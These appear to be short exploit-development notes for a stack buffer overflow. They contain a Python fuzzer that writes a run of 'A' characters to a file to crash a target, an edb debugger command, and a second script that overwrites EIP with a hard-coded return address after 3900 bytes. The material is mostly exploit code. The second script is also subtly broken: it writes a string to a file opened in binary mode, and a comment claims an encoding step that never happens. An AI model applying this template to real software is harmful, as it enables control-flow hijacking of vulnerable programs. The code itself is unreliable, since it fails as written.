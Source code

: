 
Crash python code, just keep upping the 'A' amount and running in debugger to find in EIP.
```bash - kali
#!/usr/bin/python3
 
buffer = 'A'* 4000

f = open("exploit.txt", "w")
f.write(buffer+'\n')
f.close()
```

If doing Linux overflow, run with following command, hit play once or twice.
```bash - kali
edb --run execution-flow-linux
```


```bash - kali
#!/usr/bin/python3
 
buffer = 'A'* 3900
eip = "\x2b\x86\x04\x08"
payload = buffer + eip

#Opening for writing in binary mode
with open('exploit.txt', 'wb') as f:
	#Force Latin-1 encoding
	f.write(payload)
f.close()
```






